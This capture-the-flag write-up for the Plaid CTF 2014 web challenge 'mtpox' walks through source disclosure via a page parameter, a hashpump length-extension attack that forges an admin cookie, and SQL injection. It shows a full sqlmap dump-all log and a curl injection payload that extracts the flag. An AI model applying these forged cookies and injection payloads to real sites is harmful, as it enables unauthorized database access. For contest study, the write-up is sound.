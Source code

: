 # Plaid CTF 2014: mtpox

**Category:** Web
**Points:** 150
**Description:**

> The Plague has traveled back in time to create a cryptocurrency before Satoshi does in an attempt to quickly gain the resources required for his empire. As you step out of your time machine, you learn [his exchange](http://54.211.6.40/) has stopped trades, due to some sort of bug. However, if you could break into the database and show a different story of where the coins went, we might be able to stop The Plague.
>
> Hint: try reading things using `?page=`.

## Write-up

The “Index” link on the website points to [`/index.php?page=index`](http://54.211.6.40/). Playing around with that URL query string parameter reveals that the site is vulnerable to source code disclosure. We exploit this vulnerability to get the source code for [`index.php`](index.php) (via [`/index.php?page=index.php`](http://54.211.6.40/index.php?page=index.php)) and [`admin.php`](admin.php) (via [`/index.php?page=admin.php`](http://54.211.6.40/index.php?page=admin.php)).

(TODO: explain hash length extension attack)

Hash Length Extension attack:
    http://en.wikipedia.org/wiki/Length_extension_attack
    https://github.com/bwall/HashPump
    https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks

```bash
$ hashpump -s 'ef16c2bffbcf0b7567217f292f9c2a9a50885e01e002fa34db34c0bb916ed5c3' -d ';0:b' -a ';1:b' -k '8967ca6fa9eacfe716cd74db1b1db85800e451ca85d29bd27782832b9faa16ae1'
;0:b\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00`;1:b
```

Don't forget to reverse this string and URL-encode it! This cookie works:

```
auth=b%3a1%3b%60%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%80b%3a0%3b; hsh=967ca6fa9eacfe716cd74db1b1db85800e451ca85d29bd27782832b9faa16ae1
```

The `query` URL parameter for [`admin.php`](http://54.211.6.40/admin.php?query=lol) is vulnerable to SQL injection. Let’s see what kind of data we can leak using [`sqlmap`](http://sqlmap.org/):

```bash
$ sqlmap.py -u 'http://54.211.6.40/admin.php?query=abc' --cookie='auth=b%3a1%3b%60%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%80b%3a0%3b; hsh=967ca6fa9eacfe716cd74db1b1db85800e451ca85d29bd27782832b9faa16ae1' --dump-all

    sqlmap/0.9 - automatic SQL injection and database takeover tool
    http://sqlmap.sourceforge.net

[*] starting at: 21:23:38

[21:23:38] [INFO] using '/usr/local/Cellar/sqlmap/0.9/output/54.211.6.40/session' as session file
[21:23:38] [INFO] testing connection to the target url
[21:23:38] [INFO] testing if the url is stable, wait a few seconds
[21:23:40] [INFO] url is stable
[21:23:40] [INFO] testing if GET parameter 'query' is dynamic
[21:23:40] [INFO] confirming that GET parameter 'query' is dynamic
[21:23:40] [INFO] GET parameter 'query' is dynamic
[21:23:40] [INFO] heuristic test shows that GET parameter 'query' might be injectable (possible DBMS: MySQL)
[21:23:40] [INFO] testing sql injection on GET parameter 'query'
[21:23:40] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[21:23:42] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE or HAVING clause'
[21:23:43] [INFO] GET parameter 'query' is 'MySQL >= 5.0 AND error-based - WHERE or HAVING clause' injectable
[21:23:43] [INFO] testing 'MySQL > 5.0.11 stacked queries'
[21:23:43] [INFO] testing 'MySQL > 5.0.11 AND time-based blind'
[21:23:43] [INFO] testing 'MySQL UNION query (NULL) - 1 to 10 columns'
[21:23:45] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
GET parameter 'query' is vulnerable. Do you want to keep testing the others? [y/N] y
sqlmap identified the following injection points with a total of 33 HTTP(s) requests:
---
Place: GET
Parameter: query
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE or HAVING clause
    Payload: query=abc AND (SELECT 1000 FROM(SELECT COUNT(*),CONCAT(CHAR(58,98,119,100,58),(SELECT (CASE WHEN (1000=1000) THEN 1 ELSE 0 END)),CHAR(58,108,110,101,58),FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a)
---

[21:25:35] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian or Ubuntu
web application technology: Apache 2.2.22, PHP 5.4.4
back-end DBMS: MySQL 5.0
[21:25:35] [INFO] sqlmap will dump entries of all databases' tables now
[21:25:35] [INFO] fetching tables
[21:25:35] [INFO] fetching database names
[21:25:35] [INFO] the SQL query used returns 2 entries
[21:25:35] [INFO] retrieved: information_schema
[21:25:35] [INFO] retrieved: mtpox
[21:25:35] [INFO] the SQL query used returns 41 entries
[21:25:36] [INFO] retrieved: information_schema
[21:25:36] [INFO] retrieved: CHARACTER_SETS
[21:25:36] [INFO] retrieved: information_schema
[21:25:36] [INFO] retrieved: COLLATIONS
[21:25:36] [INFO] retrieved: information_schema
[21:25:37] [INFO] retrieved: COLLATION_CHARACTER_SET_APPLICABILITY
[21:25:37] [INFO] retrieved: information_schema
[21:25:37] [INFO] retrieved: COLUMNS
[21:25:37] [INFO] retrieved: information_schema
[21:25:38] [INFO] retrieved: COLUMN_PRIVILEGES
[21:25:38] [INFO] retrieved: information_schema
[21:25:38] [INFO] retrieved: ENGINES
[21:25:38] [INFO] retrieved: information_schema
[21:25:38] [INFO] retrieved: EVENTS
[21:25:39] [INFO] retrieved: information_schema
[21:25:39] [INFO] retrieved: FILES
[21:25:39] [INFO] retrieved: information_schema
[21:25:39] [INFO] retrieved: GLOBAL_STATUS
[21:25:39] [INFO] retrieved: information_schema
[21:25:40] [INFO] retrieved: GLOBAL_VARIABLES
[21:25:40] [INFO] retrieved: information_schema
[21:25:40] [INFO] retrieved: KEY_COLUMN_USAGE
[21:25:40] [INFO] retrieved: information_schema
[21:25:40] [INFO] retrieved: PARAMETERS
[21:25:41] [INFO] retrieved: information_schema
[21:25:41] [INFO] retrieved: PARTITIONS
[21:25:41] [INFO] retrieved: information_schema
[21:25:41] [INFO] retrieved: PLUGINS
[21:25:42] [INFO] retrieved: information_schema
[21:25:42] [INFO] retrieved: PROCESSLIST
[21:25:42] [INFO] retrieved: information_schema
[21:25:42] [INFO] retrieved: PROFILING
[21:25:42] [INFO] retrieved: information_schema
[21:25:43] [INFO] retrieved: REFERENTIAL_CONSTRAINTS
[21:25:43] [INFO] retrieved: information_schema
[21:25:43] [INFO] retrieved: ROUTINES
[21:25:43] [INFO] retrieved: information_schema
[21:25:43] [INFO] retrieved: SCHEMATA
[21:25:44] [INFO] retrieved: information_schema
[21:25:44] [INFO] retrieved: SCHEMA_PRIVILEGES
[21:25:44] [INFO] retrieved: information_schema
[21:25:44] [INFO] retrieved: SESSION_STATUS
[21:25:45] [INFO] retrieved: information_schema
[21:25:45] [INFO] retrieved: SESSION_VARIABLES
[21:25:45] [INFO] retrieved: information_schema
[21:25:45] [INFO] retrieved: STATISTICS
[21:25:45] [INFO] retrieved: information_schema
[21:25:46] [INFO] retrieved: TABLES
[21:25:46] [INFO] retrieved: information_schema
[21:25:46] [INFO] retrieved: TABLESPACES
[21:25:46] [INFO] retrieved: information_schema
[21:25:46] [INFO] retrieved: TABLE_CONSTRAINTS
[21:25:47] [INFO] retrieved: information_schema
[21:25:47] [INFO] retrieved: TABLE_PRIVILEGES
[21:25:47] [INFO] retrieved: information_schema
[21:25:47] [INFO] retrieved: TRIGGERS
[21:25:47] [INFO] retrieved: information_schema
[21:25:48] [INFO] retrieved: USER_PRIVILEGES
[21:25:48] [INFO] retrieved: information_schema
[21:25:48] [INFO] retrieved: VIEWS
[21:25:48] [INFO] retrieved: information_schema
[21:25:49] [INFO] retrieved: INNODB_BUFFER_PAGE
[21:25:49] [INFO] retrieved: information_schema
[21:25:49] [INFO] retrieved: INNODB_TRX
[21:25:49] [INFO] retrieved: information_schema
[21:25:49] [INFO] retrieved: INNODB_BUFFER_POOL_STATS
[21:25:50] [INFO] retrieved: information_schema
[21:25:50] [INFO] retrieved: INNODB_LOCK_WAITS
[21:25:50] [INFO] retrieved: information_schema
[21:25:50] [INFO] retrieved: INNODB_CMPMEM
[21:25:50] [INFO] retrieved: information_schema
[21:25:51] [INFO] retrieved: INNODB_CMP
[21:25:51] [INFO] retrieved: information_schema
[21:25:51] [INFO] retrieved: INNODB_LOCKS
[21:25:51] [INFO] retrieved: information_schema
[21:25:51] [INFO] retrieved: INNODB_CMPMEM_RESET
[21:25:52] [INFO] retrieved: information_schema
[21:25:52] [INFO] retrieved: INNODB_CMP_RESET
[21:25:52] [INFO] retrieved: information_schema
[21:25:52] [INFO] retrieved: INNODB_BUFFER_PAGE_LRU
[21:25:53] [INFO] retrieved: mtpox
[21:25:53] [INFO] retrieved: plaidcoin_wallets
[21:25:53] [INFO] fetching columns for table 'plaidcoin_wallets' on database 'mtpox'
[21:25:53] [INFO] the SQL query used returns 2 entries
[21:25:53] [INFO] retrieved: id
[21:25:54] [INFO] retrieved: varchar(40)
[21:25:54] [INFO] retrieved: amount
[21:25:54] [INFO] retrieved: int(30)
[21:25:54] [INFO] fetching entries for table 'plaidcoin_wallets' on database 'mtpox'
[21:25:54] [INFO] the SQL query used returns 1 entries
[21:25:54] [INFO] retrieved: 1333337
[21:25:55] [INFO] retrieved: flag{phpPhPphpPPPphpcoin}
Database: mtpox
Table: plaidcoin_wallets
[1 entry]
+---------+---------------------------+
| amount  | id                        |
+---------+---------------------------+
| 1333337 | flag{phpPhPphpPPPphpcoin} |
+---------+---------------------------+

[21:25:55] [INFO] Table 'mtpox.plaidcoin_wallets' dumped to CSV file '/usr/local/Cellar/sqlmap/0.9/output/54.211.6.40/dump/mtpox/plaidcoin_wallets.csv'
[21:25:55] [INFO] fetching columns for table 'CHARACTER_SETS' on database 'information_schema'
[21:25:55] [INFO] the SQL query used returns 4 entries
[21:25:55] [INFO] retrieved: CHARACTER_SET_NAME
…
```

The flag is `flag{phpPhPphpPPPphpcoin}`.

For the record, the payload `sqlmap` used to get the flag was:

```bash
$ curl --cookie 'auth=b%3a1%3b%60%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%80b%3a0%3b; hsh=967ca6fa9eacfe716cd74db1b1db85800e451ca85d29bd27782832b9faa16ae1' 'http://54.211.6.40/admin.php?query=abc%20AND%20%28SELECT%203497%20FROM%28SELECT%20COUNT%28%2A%29%2CCONCAT%28CHAR%2858%2C103%2C99%2C121%2C58%29%2C%28SELECT%20MID%28%28IFNULL%28CAST%28id%20AS%20CHAR%29%2CCHAR%2832%29%29%29%2C1%2C50%29%20FROM%20mtpox.plaidcoin_wallets%20LIMIT%200%2C1%29%2CCHAR%2858%2C118%2C117%2C112%2C58%29%2CFLOOR%28RAND%280%29%2A2%29%29x%20FROM%20information_schema.tables%20GROUP%20BY%20x%29a%29'
Query failed: Duplicate entry ':gcy:flag{phpPhPphpPPPphpcoin}:vup:1' for key 'group_key'
```

## Other write-ups

* <http://conceptofproof.wordpress.com/2014/04/13/plaidctf-2014-web-150-mtgox-writeup/>
* <https://blog.skullsecurity.org/2014/plaidctf-web-150-mtpox-hash-extension-attack>

